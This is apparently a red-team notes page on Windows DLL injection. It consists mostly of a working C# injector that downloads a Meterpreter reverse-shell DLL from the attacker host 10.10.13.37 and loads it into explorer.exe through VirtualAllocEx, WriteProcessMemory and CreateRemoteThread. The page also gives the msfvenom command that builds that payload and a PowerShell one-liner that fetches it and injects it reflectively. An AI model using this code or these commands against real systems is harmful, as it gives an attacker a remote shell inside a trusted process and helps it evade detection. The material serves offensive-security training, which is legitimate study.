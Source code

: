 ```yaml
---
description: Inject DLLs into remote process's virtual address space
---
```


# DLL Injectors




## Classic DLL Injection



### C\# Executable

A simple C# DLL injector to explain the basics:

1. Allocate space for the malicious DLL in remote process's virtual address space.
2. Write the DLL contents into the allocated space.
3. Locate the address of the [LoadLibraryA](https://docs.microsoft.com/en-us/windows/win32/api/libloaderapi/nf-libloaderapi-loadlibrarya) function in kernel32.dll with `GetModuleHandle` and `GetProcAddress`. Most Windows native DLLs are allocated at the same base address, so the obtained address of `LoadLibraryA` will be the same for the remote process.
4. Invoke `LoadLibraryA` function on the behalf of the remote thread supplying base `LoadLibraryA` address as the *4th* argument of `CreateRemoteThread` and the name of the DLL to be loaded as the *5th* argument.

All this is needed because `LoadLibrary` functions cannot be invoked natively on a remote process.

{% code title="DLLInjector.cs" %}
```csharp
using System;
using System.Net;
using System.Linq;
using System.Diagnostics;
using System.Runtime.InteropServices;
using System.Text;

namespace DLLInjector
{
    class Program
    {
        [DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]
        static extern IntPtr OpenProcess(uint processAccess, bool bInheritHandle, int processId);

        [DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]
        static extern IntPtr VirtualAllocEx(IntPtr hProcess, IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);

        [DllImport("kernel32.dll")]
        static extern bool WriteProcessMemory(IntPtr hProcess, IntPtr lpBaseAddress, byte[] lpBuffer, Int32 nSize, out IntPtr lpNumberOfBytesWritten);

        [DllImport("kernel32.dll")]
        static extern IntPtr CreateRemoteThread(IntPtr hProcess, IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);

        [DllImport("kernel32", CharSet = CharSet.Ansi, ExactSpelling = true, SetLastError = true)]
        static extern IntPtr GetProcAddress(IntPtr hModule, string procName);

        [DllImport("kernel32.dll", CharSet = CharSet.Auto)]
        public static extern IntPtr GetModuleHandle(string lpModuleName);

        static void Main(string[] args)
        {
            // Download the malicious DLL
            String dirName = Environment.GetFolderPath(Environment.SpecialFolder.MyMusic);
            String dllName = dirName + "\\met.dll";
            WebClient wc = new WebClient();
            // msfvenom -p windows/x64/meterpreter/reverse_https LHOST=10.10.13.37 LPORT=443 EXITFUNC=thread -f dll -o met.dll
            wc.DownloadFile("http://10.10.13.37/met.dll", dllName);

            // Get remote process handle
            Process[] pList = Process.GetProcessesByName("explorer");
            int processId = pList.First().Id;
            IntPtr hProcess = OpenProcess(0x001F0FFF, false, processId);

            // Allocate space for the DLL in remote process's virtual address space and write the DLL
            IntPtr dllAddress = VirtualAllocEx(hProcess, IntPtr.Zero, 0x1000, 0x3000, 0x40);
            IntPtr outSize;
            WriteProcessMemory(hProcess, dllAddress, Encoding.Default.GetBytes(dllName), dllName.Length, out outSize);

            // Locate base address of the LoadLibraryA function in kernel32.dll (this address will be the same for the remote process)
            IntPtr loadLibraryAddress = GetProcAddress(GetModuleHandle("kernel32.dll"), "LoadLibraryA");

            // Invoke LoadLibraryA function in the remote process supplying starting address of the malicious DLL in its (process's) address space
            IntPtr hThread = CreateRemoteThread(hProcess, IntPtr.Zero, 0, loadLibraryAddress, dllAddress, 0, IntPtr.Zero);
        }
    }
}
```
{% endcode %}

{% hint style="warning" %}
According to [this](https://github.com/rapid7/metasploit-framework/blob/09fe84faed5fa055df54fdf858ebd0de750eb34f/data/templates/src/pe/dll/template.c) template that MSF is using to generate a DLL, there's another injection technique (Thread Execution Hijacking) [in the DLL code itself](https://github.com/rapid7/metasploit-framework/blob/09fe84faed5fa055df54fdf858ebd0de750eb34f/data/templates/src/pe/dll/template.c#L115) which is invoked upon `DLL_PROCESS_ATTACH` event. That causes the DLL not to be loaded in the target process memory, but it rather forces new shellcode to be executed by `rundll32.exe` and the malicios process (meterpreter shell, etc.) gets the PID of `rundll32.exe`. It may also result in hanging the parent's process (`explorer.exe` in terms of this example) and crashing it when the shell dies.
{% endhint %}




## Reflective DLL Injection

* [https://github.com/stephenfewer/ReflectiveDLLInjection#overview](https://github.com/stephenfewer/ReflectiveDLLInjection#overview)
* [https://github.com/dismantl/ImprovedReflectiveDLLInjection](https://github.com/dismantl/ImprovedReflectiveDLLInjection)
* [https://github.com/Moriarty2016/NimRDI](https://github.com/Moriarty2016/NimRDI)



### Invoke-ReflectivePEInjection

* [https://github.com/S3cur3Th1sSh1t/Creds/blob/master/PowershellScripts/Invoke-ReflectivePEInjection.ps1](https://github.com/S3cur3Th1sSh1t/Creds/blob/master/PowershellScripts/Invoke-ReflectivePEInjection.ps1)

```
$ msfvenom -p windows/x64/meterpreter/reverse_https LHOST=10.10.13.37 LPORT=443 EXITFUNC=thread -f dll -o met.dll
PS > $bytes = (New-Object Net.WebClient).DownloadData("http://10.10.13.37/met.dll")
PS > Invoke-ReflectivePEInjection -PEBytes $bytes -ProcId (Get-Process explorer).Id
```
